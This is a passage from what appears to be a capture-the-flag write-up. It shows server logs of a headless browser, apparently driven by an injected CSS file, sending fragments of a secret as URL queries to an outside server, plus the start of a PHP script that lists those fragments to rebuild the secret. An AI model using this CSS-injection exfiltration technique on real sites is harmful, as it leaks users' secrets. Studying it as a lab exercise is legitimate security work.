 ```
139.59.145.103 - - [22/Dec/2019:06:42:44 +0100] "GET /a?d3b HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:44 +0100] "GET /a?d4b HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:44 +0100] "GET /a?d4e HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:45 +0100] "GET /a?e01 HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:46 +0100] "GET /a?eb7 HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:47 +0100] "GET /a?f12 HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:48 +0100] "GET /a?fd3 HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
```

### reconstruct.php
```php
<?php
$c = explode("\n",
"01a
049
0b1
0c5
12a
1ad
1b0
1c6
1d1
2a9
2ba
2fd
3b8
40c
489
494
4a6
4b4
4d4
4eb
51b
57c
60b
68c
69e
6b6
740
77c
7c9
```